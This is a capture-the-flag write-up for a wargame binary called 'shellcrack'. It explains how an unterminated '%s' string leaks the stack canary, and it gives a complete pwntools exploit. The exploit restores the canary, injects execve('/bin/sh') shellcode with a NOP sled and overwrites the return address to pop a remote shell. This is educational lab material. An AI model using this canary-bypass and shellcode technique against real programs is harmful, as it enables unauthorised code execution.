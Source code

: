 # shellcrack

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNS1zaGVsbGNyYWNrIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6Ijk5ZGFkNTBlLTM2NTAtNDQ5ZS04YzA3LWMyZWJjMjFjZTdlOSJ9.UYl_iLANQFKnizzvSQw5teHQsVO3erIPGCQ3aSuK5ik}

## Scenario

There is an 8 byte long canary (generated from /dev/urandom) stored at ebp-0x14.  
Input is read into a buffer at ebp-0x44 to ebp-0x34, which is copied to ebp-0x24 to ebp-0x14.  
A vulnerability with the "%s" format specifier exists which allows the canary to be read from

## Solution

Send a name that is 16 bytes long, such as to remove the NULL terminator from the string.  
This will cause the program to print out the canary after the name.  
We can then perform a buffer overflow, and shellcode into the buffer whilst keeping the canary value correct.

## Script

```python3
from pwn import *

p = process("./shellcrack")
p = remote("plsdonthaq.me", 5001)

# Buffer from ebp-0x44 to ebp-0x34 copied to ebp-0x24 to ebp-0x14
# Canary is 8 bytes long at vuln::ebp-0x14 -> ebp-0x6

# the %s expansion will keep going until it hits a null byte
p.recvuntil('Enter as:')
nameStr = "." * 0x10
p.send(nameStr)
p.recvuntil("This is the 6447 wargaming gateway, " + nameStr)

# Get the 8 byte canary
canary = p.recvuntil("!\n", drop=True)[:8]
print(f"Canary is {bytearray(canary)}")

# Get the buffer address
p.recvuntil('Write your data to the buffer[')
buffer = int(p.recvuntil('].\n', drop=True), 16)
# :: buffer = ebp - 0x44
# :: ebp = buffer + 0x44
ebp = buffer + 0x44
print(f"Buffer at {hex(buffer)}")
print(f"vuln::ebp at {hex(ebp)}")

# Pop a shell
assembly = f"""
   push 0x0068732f
   push 0x6e69622f

   mov ebx, esp

   mov eax, 0xb
   mov ecx, 0
   mov edx, 0
   mov esi, 0
   int 0x80
"""

shellCode = asm(re.sub('#.*$', '', assembly, flags=re.MULTILINE))
print(f"Shellcode is {len(shellCode)} bytes long")

payload = b""
payload += shellCode                        # Put the shell code into the buffer
payload += b'\x90' * (0x30 - len(payload))  # Santa's NOP-sled
payload += canary                           # Place back the canary
payload += b'A' * 16                        # Padding to reach the old ebp
payload += p32(buffer)                      # Modify the return address to our shellcode

p.sendline(payload)

p.interactive() 
```
